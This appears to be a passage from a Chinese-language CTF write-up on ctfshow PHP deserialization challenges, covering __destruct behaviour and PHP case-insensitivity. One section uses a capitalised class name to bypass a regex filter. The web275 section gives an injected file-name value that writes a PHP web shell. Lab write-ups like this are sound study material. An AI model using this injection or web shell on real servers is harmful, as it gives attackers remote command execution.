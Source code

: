 如果不加最后一句的 throw, 会正常输出 `Destroying...`

但是有了 throw 之后, 程序将抛出异常

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208152257465.png)

程序在 throw 处已经被终止了, 没有正常执行完毕, `__destruct()` 方法也就不会执行

回到题目中, 代码里的 `preg_match()` 没有加 `/i`, 猜测用大小写绕过?

```php
O:7:"CTFSHOW":0:{}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208152300862.png)

后来搜了一下, 发现 PHP 有如下特性

> 1. 变量名区分大小写
> 2. 常量名区分大小写
> 3. 数组索引 (键名) 区分大小写
> 4. **函数名, 方法名, 类名不区分大小写**
> 5. 魔术常量不区分大小写 (以双下划线开头和结尾的常量)
> 6.  NULL TRUE FALSE 不区分大小写
> 7. 强制类型转换不区分大小写 (在变量前面加上 `(type)`)

## web267-270

Yii 框架的反序列化漏洞

待补充

## web271-273

Laravel 的反序列化漏洞

待补充

## web274

ThinkPHP 的反序列化漏洞

待补充

## web275

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208152332692.png)

filter 类 `__destruct` 方法中的 system 可以执行命令

文件名可控, 而且我们也可以构造出 `$evilfile = true` 的情况

get fn 传参

```
123; echo '<?php system($_GET[1]);?>' > 1.php
```
